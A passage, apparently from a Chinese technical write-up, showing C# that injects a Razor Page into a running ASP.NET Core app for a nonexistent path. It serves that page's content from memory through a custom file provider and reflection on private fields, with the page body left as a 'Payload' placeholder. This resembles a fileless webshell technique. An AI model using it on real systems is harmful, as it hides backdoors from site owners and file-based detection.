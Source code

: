 ```csharp
            AttributeRouteModel = new AttributeRouteModel
            {
                Template = AttributeRouteModel.CombineTemplates(pagePath, null),
            },
            EndpointMetadata =
            {
                new PageRouteMetadata(pagePath, null)
            }
        });
        context.RouteModels.Add(routeModel);
    }
    public void OnProvidersExecuted(PageRouteModelProviderContext context)
    {
    }
}
```

这里指定的`relativePath`是要给不存在的路径，由于运行时编译下使用`PhysicalFileProvider`来获取这个路径上的文件信息，由于文件不存在导致不能正确的编译为程序集，进而导致在`CreateCompiledDescriptor`的时候因为`Type`为`null`造成异常。所以需要实现`IFileProvider`接口来自定义文件查找行为，然后对Razor视图引擎中的`FileSystem`属性进行替换，这样做的时候需要对文件路径进行判断并且还原`FileSystem`。

```csharp
 public class MyFileInfo : IFileInfo
{
    public bool Exists { get => true; }
    public long Length { get;}
    public string? PhysicalPath { get; }
    public string Name { get; set; }
    public DateTimeOffset LastModified { get => DateTimeOffset.Now; }
    public bool IsDirectory { get => false; }
    public static Microsoft.AspNetCore.Razor.Language.RazorProjectFileSystem p;
    public static string s;

    public Stream CreateReadStream()
    {   
        var _fileProvider = p.GetType().GetField("_fileProvider", BindingFlags.NonPublic | BindingFlags.Instance).GetValue(p);
        var _options = _fileProvider.GetType().GetField("_options", BindingFlags.NonPublic | BindingFlags.Instance).GetValue(_fileProvider);
        var _fileProvidersProperty = _options.GetType().GetProperty("FileProviders");
        var _fileProvidersValue = (List<Microsoft.Extensions.FileProviders.IFileProvider>) _fileProvidersProperty.GetValue(_options);
        var originalFileSystem = _fileProvidersValue.FirstOrDefault(i => i.GetType().FullName.Equals("Microsoft.Extensions.FileProviders.PhysicalFileProvider"));
        _fileProvider.GetType().GetField("_compositeFileProvider", BindingFlags.Instance|BindingFlags.NonPublic).SetValue(_fileProvider, originalFileSystem);
        return new MemoryStream(Encoding.ASCII.GetBytes(@"
            Payload
        "));
    }
}

public class TestFileFileProvider : IFileProvider
{
    public static Microsoft.AspNetCore.Razor.Language.RazorProjectFileSystem p;
    public IFileInfo GetFileInfo(string subpath)
    {
        var _fileProvider = p.GetType().GetField("_fileProvider", BindingFlags.NonPublic | BindingFlags.Instance).GetValue(p);
        var _options = _fileProvider.GetType().GetField("_options", BindingFlags.NonPublic | BindingFlags.Instance).GetValue(_fileProvider);
        var _fileProvidersProperty = _options.GetType().GetProperty("FileProviders");
        var _fileProvidersValue = (List<Microsoft.Extensions.FileProviders.IFileProvider>) _fileProvidersProperty.GetValue(_options);
```